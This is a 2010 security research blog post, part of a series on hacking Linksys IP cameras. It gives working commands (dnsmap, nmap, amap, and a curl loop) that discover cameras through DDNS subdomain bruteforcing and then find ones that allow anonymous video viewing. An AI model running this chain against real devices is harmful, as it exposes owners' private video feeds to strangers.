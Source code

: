 ```yaml
---
title: Hacking Linksys IP Cameras (pt 6)
author: adrian-pastor
date: Wed, 24 Feb 2010 07:18:29 GMT
template: post.jade
category: fucked
---
```


> This article is a continuation of the following GNUCITIZEN articles: [here](/blog/hacking-linksys-ip-cameras-pt-1/), [here](/blog/hacking-linksys-ip-cameras-pt-2/), [here](/blog/hacking-linksys-ip-cameras-pt-3/), [here](/blog/hacking-linksys-ip-cameras-pt-4/) and [here](/blog/hacking-linksys-ip-cameras-pt-5/).

As we know, there are several ways one could go about hunting for IP cameras on the net. The slowest way would be to portscan random IP addresses for certain ports and programmatically detect if the web interface of a given camera was available on the open ports found. This method definitely works, but it can be very time consuming as it consists of scanning random IP addresses hoping that we'll eventually come across the type of device we're interested in.

The second method, which would be much faster in finding our target devices, would be to use a [search engine](http://www.google.co.uk/search?ie=UTF-8&q=inurl:/img/vr.htm) and query content that is unique to our target devices (e.g.: URLs, HTML title). This method, popularized by [GHDB](http://www.hackersforcharity.org/ghdb/?function=summary&cat=18) is simple and effective. The only issue I find with this strategy is that many of these IP cameras found happen to respond very slowly. This is probably due to other curious individuals running the same searches and accessing the same cameras.

The third method which would allow you to find more hidden Linksys IP cameras (i.e.: not cached by search engines a.k.a. the [hidden web](http://www.ericdigests.org/2002-2/hidden.htm)), would consist of bruteforcing subdomains within dynamic domain names (DDNS) used by our target devices (Linksys IP cameras in this case). For instance, the following are some of the dynamic domain names supported by the WVC54GCA and WVC80N Linksys IP camera models:

* `linksys-cam.com`
* `mylinksyscamera.com`
* `mylinksyshome.com`
* `mylinksyscam.com`
* `mylinksysview.com`
* `linksysremotecam.com`
* `linksysremoteview.com`
* `linksyshomemonitor.com`

### Camera discovery process through subdomain bruteforcing

We first save the aforementioned domains in a file, `doms` in this case. Then we use [dnsmap](http://code.google.com/p/dnsmap/) to bruteforce subdomains for each of the domains included in `doms`.

Using dnsmap's built-in wordlist:

    $ for i in `cat doms`;do dnsmap $i -r ~/ -i 64.14.13.199,216.39.81.84&done;

Using a user-supplied wordlist, `wordlist_TLAs.txt` in this case, which is a three-letter acronym wordlist included with dnsmap v0.30:

    $ for i in `cat doms`;do dnsmap $i -w wordlist_TLAs.txt -r ~/ -i 64.14.13.199,216.39.81.84&done;

NOTE: dnsmap's `-i` option allows ignoring user-supplied IP addresses from the results. In this case, 64.14.13.199 and 216.39.81.84 belong to the [DDNS service provider](http://www.tzo.com/), and would therefore be regarded as false positives in this case (we're only interested in IP cameras setup by their respective owners after all). For more info on how to use dnsmap, checkout the [README](http://code.google.com/p/dnsmap/source/browse/trunk/README.txt) file.

We then parse the IP addresses of the subdomains discovered by dnsmap:

    $ grep \# dnsmap*.txt | awk '{print $4}' | sort | uniq > ips.txt

Next, we scan for ports that could potentially be used by a Linksys IP camera web server. In this case, we choose TCP ports 80, 1024 and 1025 as candidates:

    $ sudo nmap -v -T4 -n -P0 -sS -p80,1024,1025 -iL ips.txt -oA nmap_http_ports.`date +%Y-%m-%d-%H%M%S`

This leaves us with a lot of discovered services, but we don't quite yet know which of them correspond to actual Linksys IP cameras web interfaces. There are many ways to fingreprint the web server of a Linksys IP camera. In this case we chose to create our own [amap](http://freeworld.thc.org/thc-amap/) response signature, and then scan the open ports with amap.

Before amap is capable of identifying our target Linksys IP cams, the following response signature needs to be added to `appdefs.resp`, and amap then needs to be recompiled. Otherwise amap won't take the new signature into account:

    http-linksys-cam::tcp::^HTTP/.*\nServer: thttpd/.*Accept-Ranges: bytes.*WVC

Please note that the previous amap response signature was only tested against the WVC54GCA and WVC80N Linksys IP camera models. So I'm not sure if it will work against other models. You've been warned!

Once recompiled, amap can be used to identify Linksys IP cameras from nmap's open ports results. 

    $ amap -i nmap_http_ports.2010-02-22-102001.gnmap -R -S -o amap_results.`date +%Y-%m-%d-%H%M%S`

We finally parse the IP addresses and open ports for all discovered Linksys IP cameras:

    $ grep http-linksys-cam amap_results.2010-02-22-102253 | awk '{print $3}' | cut -d \/ -f1
    x.x.167.245:1024
    x.x.228.231:1025
    x.x.228.231:80
    x.x.64.22:80
    x.x.206.70:1024
    x.x.31.4:1024
    x.x.164.28:1024
    _[snip]_

At this point we have accomplished the task of creating a list of Linksys IP cameras without resorting to search engines or scanning random IP addresses. In order to discover more Linksys cameras, a more comprehensive wordlist would need to be used with dnsmap.

Of course, even further automation would be possible. For instance, an attacker may wish to programmatically identify which Linksys cameras from the previous list allowing video viewing to unauthenticated users:

```bash
$ amapfile=amap_results.2010-02-22-102253; for i in `grep http-linksys-cam $amapfile | awk '{print $3}' | cut -d \/ -f1`;do url="http://$i/img/main.cgi?next_file=main.htm"; if curl --connect-timeout 2 -s -I --url $url | grep ^"HTTP/1.1 501">/dev/null;then echo $url;fi;done;
x.x.206.70:1024/img/main.cgi?next_file=main.htm
x.x.105.221:1024/img/main.cgi?next_file=main.htm
x.x.105.221:80/img/main.cgi?next_file=main.htm
x.x.181.195:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1025/img/main.cgi?next_file=main.htm
x.x.30.196:1025/img/main.cgi?next_file=main.htm
_[snip]_
```

_In addition to automatically checking for anonymous video viewing on all cameras found, other tasks such as checking for default credentials (`admin`/`admin`) could also be scripted, although this will NOT be included in this post (or any other at GNUCITIZEN)._
